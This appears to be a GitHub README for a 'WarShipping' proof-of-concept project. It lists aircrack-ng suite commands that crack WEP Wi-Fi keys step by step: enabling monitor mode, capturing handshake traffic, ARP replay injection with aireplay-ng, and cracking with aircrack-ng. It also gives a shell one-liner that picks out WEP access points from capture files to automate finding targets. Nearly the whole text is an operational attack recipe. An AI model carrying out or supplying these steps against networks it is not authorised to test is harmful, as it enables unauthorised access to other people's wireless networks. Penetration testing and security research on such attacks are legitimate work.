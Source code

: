 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
